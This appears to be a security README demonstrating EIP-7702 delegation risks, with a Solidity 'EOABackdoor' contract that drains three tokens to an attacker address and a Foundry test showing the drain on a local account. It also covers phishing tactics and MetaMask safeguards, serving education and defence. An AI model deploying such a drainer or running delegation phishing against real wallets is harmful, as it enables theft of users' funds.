


# EIP-7702 potential vulnerabilities POC

## 1. Dangers of EIP-7702
#### 1. Incorrect Delegation = Account Takeover
- If a user signs a **delegation tuple**, the EOA (Externally Owned Account) is **bound to execute logic from the delegated contract**.
- This means the attacker can **control how the EOA behaves**.

---

#### 2. Tokens Can Be Stolen Without `approve`
- Traditionally, attackers needed an `approve → transferFrom` sequence.
- With EIP-7702, **once the delegation is signed, the attacker can directly make your EOA transfer tokens**.
- No further approvals or confirmations are required.

---

#### 3. Attacker Can Trigger Arbitrary External Calls
- Beyond transferring tokens, the attacker can:
  - Interact with DeFi protocols (e.g., borrow, swap, liquidate).
  - Trigger NFT transactions or scam contracts.
  - Perform any on-chain operation using your EOA.

---

#### 4. Single Authorization = Persistent Risk
- The delegation remains **active until manually cleared** (set to zero address).
- This means the attacker can **repeatedly exploit the authorization** at any time.
- **It’s not a one-time effect—it persists.**

---

#### 5. Signing Delegation Costs No Gas
- Delegation is done via an **off-chain signature**, so there's **no gas fee**.
- This makes phishing extremely cheap:
  - Fake airdrop sites.
  - “Free NFT” or “connect wallet to verify” prompts.
  - Once signed, the trap is set.

## 2. Proof of Concept (POC)
This PoC demonstrates how an attacker can exploit the EIP-7702 delegation mechanism. By having the user sign a single authorization signature, the user's EOA is delegated to a malicious contract `EOABackdoor`, which can then drain all tokens in a single transaction.

**Attack Flow**

1. The user signs a `signAndAttachDelegation(...)` message, setting `EOABackdoor` as the execution target.
2. An attacker sends a type-4 transaction.
3. The transaction executes `EOABackdoor.increment()`, which transfers all tokens from the contract to the attacker.
4. The `increment()` function has no access control and simply uses `transfer(...)` to empty all token balances.

#### 1. `EOABackdoor.sol`
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract EOABackdoor {
    uint256 public myNumber;

    address public constant EEEVVVILLL = 0x; // anvil(1)

    IERC20 public immutable i_tokenA;
    IERC20 public immutable i_tokenB;
    IERC20 public immutable i_tokenC;

    constructor(IERC20 tokenA, IERC20 tokenB, IERC20 tokenC) {
        i_tokenA = tokenA;
        i_tokenB = tokenB;
        i_tokenC = tokenC;
    }

    function increment() public {
        i_tokenA.transfer(EEEVVVILLL, i_tokenA.balanceOf(address(this)));
        i_tokenB.transfer(EEEVVVILLL, i_tokenB.balanceOf(address(this)));
        i_tokenC.transfer(EEEVVVILLL, i_tokenC.balanceOf(address(this)));
    }
}
```

#### 2. `EOABackdoor.t.sol`
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {Test, console} from "forge-std/Test.sol";
import {EOABackdoor, IERC20} from "../src/EOABackdoor.sol";
import {Counter} from "../src/Counter.sol";
import {MockToken} from "../src/MockToken.sol";

contract EOABackdoorTest is Test {
    EOABackdoor public eoa;
    Counter public counter;
    MockToken public tokenA;
    MockToken public tokenB;
    MockToken public tokenC;

    uint256 public constant ANVIL_KEY = 0x;
    address public constant ANVIL_ADDRESS = 0x;

    function setUp() public {
        counter = new Counter();

        vm.startPrank(ANVIL_ADDRESS);
        tokenA = new MockToken();
        tokenB = new MockToken();
        tokenC = new MockToken();
        vm.stopPrank();

        vm.deal(ANVIL_ADDRESS, 1 ether);
        eoa = new EOABackdoor(tokenA, tokenB, tokenC);
    }

    function test_backdoor() public {
        assert(tokenA.balanceOf(ANVIL_ADDRESS) > 0);
        assert(tokenB.balanceOf(ANVIL_ADDRESS) > 0);
        assert(tokenC.balanceOf(ANVIL_ADDRESS) > 0);

        vm.signAndAttachDelegation(address(eoa), ANVIL_KEY);
        vm.startPrank(ANVIL_ADDRESS);
        EOABackdoor(eoa).increment();

        assert(tokenA.balanceOf(ANVIL_ADDRESS) == 0);
        assert(tokenB.balanceOf(ANVIL_ADDRESS) == 0);
        assert(tokenC.balanceOf(ANVIL_ADDRESS) == 0);
    }
}
```

## 3. Metamask Smart Account
#### 1. How MetaMask Supports EIP-7702?
Starting from **MetaMask version v12.17.0**, Smart Account support powered by EIP-7702 is available.

This feature allows users to temporarily attach smart contract logic to their existing EOA (Externally Owned Account) without changing their address or migrating assets. With this, users can perform advanced actions like batch transactions and sponsored (gasless) transactions.

MetaMask supports EIP-7702 in the following ways:

- Users can choose to "Upgrade to Smart Account" in the account settings interface.
- Upgrading does not change your address or require asset transfers. It involves signing a **delegation tuple** as defined by EIP-7702.
- All smart account behavior is routed through a MetaMask-deployed **official delegator contract**, which includes built-in logic for common actions and prevents dangerous external contract execution.
- The MetaMask UI clearly displays prompts like "Upgrade to Smart Account" before signing to ensure users are informed.
- Users may revert to a standard account at any time through the settings menu. Reverting requires a single on-chain transaction to clear the delegation.
- Currently, this feature is supported on Ethereum mainnet and testnets, and may expand to other EIP-7702-compatible networks.





---

#### 2. Security Considerations

MetaMask has implemented multiple layers of protection to minimize risks introduced by EIP-7702.

First, users **retain full control of their private keys**. Even after upgrading to a Smart Account, your funds remain entirely under your signature authority.

MetaMask currently **restricts delegation to an official, hardcoded Delegator contract**, significantly reducing the chance of phishing websites tricking users into delegating to malicious contracts. This Delegator contract contains audited, safe logic only.

However, some security challenges remain:

- Delegation is an **off-chain signature** (zero gas), which makes it easy to trick users into signing without realizing its consequences.
- Once delegated to a malicious contract, the attacker may continue issuing transactions on your behalf until you manually revoke the delegation.
- If MetaMask eventually allows **user-defined Delegator contracts**, the phishing risk will increase. User education and clear UI design will become even more important.


## References:
1. [Pectra: The DANGERS of the Ethereum EIP-7702](https://www.youtube.com/watch?v=zIlDMeatZ94)
2. https://support.metamask.io/configure/accounts/what-is-a-smart-account/ 